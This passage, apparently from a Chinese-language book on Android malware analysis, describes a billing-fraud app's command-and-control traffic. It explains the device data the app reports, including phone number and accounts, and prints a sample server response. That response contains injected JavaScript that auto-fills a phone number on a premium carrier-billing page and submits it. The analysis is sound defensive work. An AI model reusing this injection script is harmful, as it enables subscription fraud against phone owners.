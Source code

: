```
```

*清单 3-27：发送到命令与控制服务器的有效载荷，请求命令*

`eymbmw` 字段指示设备是否处于移动网络状态（设备需要移动连接才能注册到许多运营商账单站点）。`rktfht` 字段指示应用程序是否有权限接收短信或访问应用通知，应用程序需要此权限才能获取账单注册过程中的一次性密码。`segdip` 字段指示应用程序是否有权限发送短信，这对于在某些页面上确认账单注册是必需的。`elbcnf` 字段包含设备的电话号码，而 `dgebpf` 列出了与设备注册的所有账户。根据设备的不同，注册的账户可以是某人的电子邮件地址、WhatsApp 号码、X 账户句柄或 LinkedIn 个人资料 ID。目前尚不清楚为什么恶意软件会收集这些信息。还包括了注册请求中看到的 `zubfih` 和 `bshwai` 值。

#### ***处理命令与控制服务器的响应***

解释从命令 URL 接收到的响应是困难的，但列表 3-28 展示了两个最明显的字段。

```
{
  "lybfta":
  [
    {
      "ejqgpk": 42698996,
      "gooycf": "https://d624x9ov.com/dVZjL5Vo?campaign=10372
                 &sub_aff=42698996&sub_aff3=EZ",
      "inbzrz": 200,
      "hyszxc": false,
      "eymbmw": false,
      "gkreil":
      [
        {
          "ejqgpk": 7198,
          "xjnguw": 100,
          "jxdkqb": "try{window.JBridge.call('log','v1');
          var phone_input=document.querySelector('#phone-input');
          var phone_submit=document.querySelector('#phone-continue-button');
          if(phone_input!=null&&phone_input.offsetHeight>0){
            window.JBridge.call('log','  phone');
            phone_input.value='0'+'214137764';
            window.JBridge.call('log','214137764');
            var event=document.createEvent('HTMLEvents');
            event.initEvent('input',true,true);
            phone_input.dispatchEvent(event);
            phone_submit.click();
            nextThings();
            ...
          }",
          "gooycf": "https?://s.premium-be-ex.digi-place.com/\\?q.*"
        }
      ]
    }
  ],
  "jxdkqb":
  {}
}
```
